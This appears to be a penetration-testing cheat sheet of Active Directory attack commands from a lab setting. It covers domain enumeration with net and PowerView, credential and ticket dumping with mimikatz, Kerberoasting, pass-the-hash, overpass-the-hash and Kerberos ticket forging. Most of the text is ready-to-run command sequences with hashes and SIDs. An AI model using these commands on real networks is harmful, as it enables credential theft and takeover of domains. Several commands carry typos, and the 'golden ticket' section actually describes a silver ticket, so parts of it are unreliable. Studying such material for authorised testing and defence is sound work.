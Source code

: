 ## Active Directory

* Enumerate users and groups

```
net user /domain
net user jeff_admin /domain
net group /domain
net accounts		# domain's account policy
```

* Domain controller information

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

* Enumerate Logged on Users

```
Import-Module .\PowerView.ps1

// logged in users on local desktop
Get-NetLoggedon -ComputerName client251

// active sessions on DC
Get-NetSession -ComputerName dc01
```

* Enumerate SPNs to find registered services ip and port

Change `Searcher.filter` accordingly

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain] ::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher= New-Object System.OirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter= "serviceprincipalname=*http*"

$Result= $Searcher.FindAll()

Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

* Dump password hashes and tickets stored on local machine

```
mimikatz.exe
mimikatz# privilege::debug

// dump the credentials of all logged-on users
mimikatz# sekurlsa::logonpasswords

// dump TGT and TGS tickets of all logged on users
sekurtsa::tickets

// list all cached tickets 
PS C:\Users\offsec.CORP> klist
mimikatz# kerberos::list /export
```

* Recovering SPN password from TGS ticket

```
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt tickets-list.kirbi

// tickets-list.kirbi can be obtained from mimikatz
mimikatz# kerberos::list /export
```

* Pass-The-Hash attacks( requires NTLM auth)

Authenticate to a remote system or service using a user's NTLM hash provided the service uses NTLM authentication.

Existing tools - PsExec from Metasploit, Passing-the-hash toolkit, and Impacket

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```

* Overpass the hash (converting NTLM hash into a Kerberos ticket)

PtH techniques can be used to authenticate to only NTLM supported services. Thus, upgrading NTLM hash to TGT may be quite helpful. The captured TGT may be used by tools like PsExec.exe(supports tickets auth only) to get code execution on domain controller.

```
// spawns powershell as jeff_admin
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475cllda2a8748298d87aa966c327 /run:PowerShell.exe

// perform action requiring authentication to DC
net use \\dc01

// TGT must be generated now
klist
```

* Generating golden ticket

TGS ticket with known SPN password hash can be forged to access resource as any user.


username (/user), domain name (/domain), the domain user SID(/sid),host name of the service (/target), the service type (/service: HTTP), and the password hash of the service account (/rc4).

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1682875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A8748298D87AA966C327 /ptt
```

